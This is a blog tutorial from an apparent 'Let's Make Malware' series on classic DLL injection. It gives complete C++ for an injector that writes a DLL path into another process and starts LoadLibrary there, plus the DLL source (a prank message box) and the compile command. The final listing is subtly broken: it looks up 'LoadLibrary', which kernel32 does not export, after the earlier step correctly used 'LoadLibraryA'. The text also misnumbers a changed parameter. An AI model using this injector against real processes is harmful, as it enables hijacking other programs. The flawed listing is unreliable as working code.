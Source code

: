 ```yaml
---
layout: post
title: Let's Make Malware - Classic DLL Injection
---
```


# Preamble

This week, we will cover Classic DLL Injection. As the name suggests, instead of injecting shellcode into a process, we will be forcing a process to run a DLL of our choice. This technique will use many of the same Windows API functions we covered previously. We will introduce just three new ones. Those are GetProcAddress, GetModuleHandle, and LoadLibrary. Later in this series, we will see just how special those three calls are. But for now, let’s get started.

We will be using last week’s source code on Remote Process Injection and modifying it a bit. That codebase looked like this:

```cpp
#include "windows.h"
int main() {
//msfvenom Calc shellcode
unsigned char payload[] = {… don't trust random shellcode blobs you find on the Internet … };
HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc, buffer, payload, sizeof payload, NULL);
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
WaitForSingleObject(tHandle, INFINITE);
return 0;
} 

```

# Change 1
The first thing we will change is our payload variable. We no longer need it. We will replace this with the following line:

```cpp
char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";
```

This new variable is what will be the absolute path of our malicious DLL. We can either create one using MSFVenom or, in keeping with the theme of this series, create our own DLL like so:

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
switch(fdwReason) { 
case DLL_PROCESS_ATTACH:
            			break;
        		case DLL_THREAD_ATTACH:
            			break;
        		case DLL_THREAD_DETACH:
            			break;
        		case DLL_PROCESS_DETACH:
            			break;
    	}    
    	return TRUE;  
}
```

Of course, this is just our template. We still need to add a few things to make this code functional and ready to compile. Our complete DLL code will look like so:

```cpp
	#include "windows.h"
	void execute() {
	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
switch(fdwReason) { 
case DLL_PROCESS_ATTACH:
		execute();
            				break;
        			case DLL_THREAD_ATTACH:
            				break;
        			case DLL_THREAD_DETACH:
            				break;
        			case DLL_PROCESS_DETACH:
            				break;
    		}    
    		return TRUE;  
}
```

We will cross-compile this using MinGW with the following command: 

x86_64-w64-mingw32-gcc --shared -o myEvilDLL.dll myEvilDLL.cpp

Now, that we have our DLL, we can go back to our injector executable. 

# Change 2
The next line we will change is line 10. That is our call to VirtualAllocEx. We will change the fourth parameter to this:

```cpp
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

Before our buffer contained our shellcode, but now it contains the absolute path to our DLL.

# Change 3

Likewise for our call to WriteProcessMemory.

```cpp
WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
```

# Change 4

Next, we need to change line 12, our call to CreateRemoteThread. It will look like this:

```cpp
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA"), buffer, 0, NULL);
```

To refresh, CreateRemoteThread is defined as such:

```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Before we provided our buffer variable as the argument to the lpStartAddress parameter and set lpParameter to 0 as we did not need it. This time, however, we use a combination of GetProcAddress and GetModuleHandle to find the memory address of a third API: LoadLibrary. 

Our buffer variable, which contains the absolute path of our malicious DLL, is then passed to LoadLibrary as an argument forcing the remote process to run it. 

GetProcAddress will find the memory address of a function, also known as a procedure, and returns it. It is defined like so:

```cpp
FARPROC GetProcAddress(
  [in] HMODULE hModule,
  [in] LPCSTR  lpProcName
);
```

The first parameter is a handle to a module. Or in other words, a DLL. This is where GetModuleHandle comes in.

The second parameter is the function (procedure) we are looking for. 

GetModuleHandle does as its name suggests: returns a handle to a module.

It is defined like so:

```cpp
HMODULE GetModuleHandleA(
  [in, optional] LPCSTR lpModuleName
);
```

Its only parameter is the module name we are looking for. Many of the functions we want to use as malware developers are in Kernel32.dll. It is a special DLL because Windows loads it into every process by default.

Finally, we have LoadLibrary. This should be self-explanatory as its purpose is to load a library (DLL).

It is defined like so:

```cpp
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

Its parameter is also self-explanatory. It needs the file name of the DLL we want it to load. Simple!

And that’s everything we need. Our full injector code will look like this:

# All Together 

```cpp
#include "windows.h"
int main() {
	char myDLLPath[] = "C:\\Windows\\Temp\\myEvilDLL.dll";
	HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
	LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
	HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibrary"), buffer, 0, NULL);
	WaitForSingleObject(tHandle, INFINITE);
	return 0;
} 
```

One thing of note is that we need to change the last parameter in our call to OpenProcess to the PID of the process we want to inject into before compiling. We will keep things simple and use notepad again. 

Now, we need to transfer our malicious DLL onto a test machine to the Windows\Temp folder. Once we have that in place (and transferred our injector executable as well, of course), we can run our injector and watch the magic happen.

And there we have it! Our DLL attached to notepad and our message box popped up.

![Message Box](/assets/dll_injected_msgbox.png)

To verify this, we can use process hacker to look at the loaded modules (DLLs) of the target process.

![Verifying DLL attached](/assets/dll_injected.png)
